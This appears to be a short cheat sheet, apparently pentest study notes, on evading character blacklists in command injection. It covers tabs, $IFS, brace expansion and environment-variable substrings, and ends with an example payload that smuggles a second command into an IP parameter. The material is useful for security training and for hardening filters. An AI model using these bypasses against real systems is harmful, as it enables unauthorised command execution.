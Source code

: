 ___
# Space
A space is a commonly blacklisted character, using `tabs (%09)` instead of spaces

Using the (`$IFS`) Linux Environment Variable may also work since its default value is a space and a tab, which would work between command arguments

`Bash Brace Expansion` feature, which automatically adds spaces between arguments wrapped between braces

```bash
{ls,-la}
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

# Slash (`/`) 

```bash
echo ${PATH:0:1}

/
```

# Semi-colon (`;`)

```shell-session
echo ${LS_COLORS:10:1}

;
```

# Windows backslash (`\`)

```bash
echo %HOMEPATH:~6,-11%

\
```

```bash
$env:HOMEPATH[0]
```

# Example

```
ip=127.0.0.1%0a{ls,${PATH:0:1}home}
```

```
ls /home
```


